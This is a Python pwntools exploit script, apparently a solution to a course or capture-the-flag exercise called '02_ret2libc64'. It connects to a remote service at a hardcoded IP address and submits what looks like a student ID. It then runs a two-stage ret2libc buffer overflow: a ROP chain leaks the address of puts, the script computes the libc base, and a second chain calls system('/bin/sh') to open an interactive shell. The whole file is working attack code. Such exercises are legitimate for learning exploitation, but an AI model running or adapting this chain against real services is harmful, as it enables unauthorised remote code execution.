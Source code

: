 ## exploit/02.py

```python
from pwn import *
from time import sleep

context(arch='amd64', os='linux', log_level='INFO')

conn = remote("47.99.80.189", 10012)
conn.recvuntil("ID:\n")
conn.sendline("3180103012")

# conn = process('crackme/02_ret2libc64')

conn.recvuntil("[*] Now, please input your ID:")
conn.sendline("3180103012")

binary = ELF("./crackme/02_ret2libc64")
libc = ELF("./crackme/libc-2.27.so")
binary_gadgets = ROP(binary)

# pop\s+%[a-z0-9]+\n\s+[0-9a-f]+:\s+[0-9a-f\s]+ret
gadget_pop_rdi_ret = (binary_gadgets.find_gadget(['pop rdi', 'ret']))[0]
gadget_ret = (binary_gadgets.find_gadget(['ret']))[0]

'''
Stage 1
'''

puts_plt = binary.plt['puts']       # 0x400550
puts_got = binary.got['puts']       # 0x601018
hear_addr = binary.symbols['hear']  # 0x400706

conn.recvuntil("Give me something to overflow me!\n")

conn.sendline(b"\0" * (256 + 8) + p64(gadget_pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(hear_addr))

'''
Stage 2
'''

addr_puts = u64(conn.recvline().strip().ljust(8, b'\0'))  # 0x601018=<puts@GLIBC_2.2.5>


print("%x" % addr_puts)

offset_puts = libc.sym['puts']                # 0x80aa0 <_IO_puts@@GLIBC_2.2.5>
offset_system = libc.sym['system']            # 0x4f550 <__libc_system@@GLIBC_PRIVATE>
offset_exit = libc.sym['exit']                # 0x43240 <exit@@GLIBC_2.2.5>
offset_binsh = next(libc.search(b'/bin/sh'))  # 0x1b3e1a <_libc_intl_domainname@@GLIBC_2.2.5+0x186>

libc_base = addr_puts - offset_puts
addr_system = libc_base + offset_system
addr_exit = libc_base + offset_exit
addr_binsh = libc_base + offset_binsh

conn.sendline(b"\0" * (256 + 8) + p64(gadget_pop_rdi_ret) + p64(addr_binsh) + p64(gadget_ret) + p64(addr_system))

conn.interactive()
```
